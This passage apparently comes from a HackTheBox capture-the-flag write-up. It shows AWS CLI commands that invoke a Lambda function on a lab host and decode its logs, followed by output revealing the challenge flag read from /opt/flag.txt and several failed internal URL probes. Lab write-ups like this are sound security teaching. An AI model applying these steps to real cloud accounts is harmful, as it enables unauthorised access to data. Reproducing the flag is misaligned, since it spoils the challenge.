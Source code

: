 Commands used:
```bash
aws --endpoint-url http://cloud.htb lambda invoke \
  --function-name accserv-dev \
  --log-type Tail \
  /tmp/out.json \
  --cli-binary-format raw-in-base64-out > /tmp/invoke_meta.json

# Show return body nicely (body itself is JSON)
jq -r '.body' /tmp/out.json | jq .

# Also view logs (useful if anything errors)
python3 - <<'PY'
import json,base64
m=json.load(open('/tmp/invoke_meta.json'))
print(base64.b64decode(m.get('LogResult','')).decode(errors='ignore'))
PY
```

Output:
```json
{
  "found": {
    "/opt/flag.txt": "HTB{Upd4t3s_4r3_n0t_n1c3_1n_l4mbd4s}"
  },
  "http": {
    "http://127.0.0.1/flag": {
      "error": "<urlopen error [Errno 111] Connection refused>"
    },
    "http://cloud.htb/flag": {
      "error": "<urlopen error [Errno -3] Try again>"
    },
    "http://cloud.htb/dev/flag": {
      "error": "<urlopen error [Errno -3] Try again>"
    },
    "http://cloud.htb/beta/flag": {
      "error": "<urlopen error [Errno -3] Try again>"
    },
    "http://cloud.htb/api/flag": {
      "error": "<urlopen error [Errno -3] Try again>"
    },
    "http://10.129.198.137/flag": {
      "error": "HTTP Error 404: Not Found"
    }
  }
}
START d7e8eebe-9647-4cb3-9df9-6015843f590c: Lambda arn:aws:lambda:us-east-2:000000000000:function:accserv-dev started via "local" executor ...
END RequestId: d7e8eebe-9647-4cb3-9df9-6015843f590c
REPORT RequestId: d7e8eebe-9647-4cb3-9df9-6015843f590c Duration: 20340155 ms
```
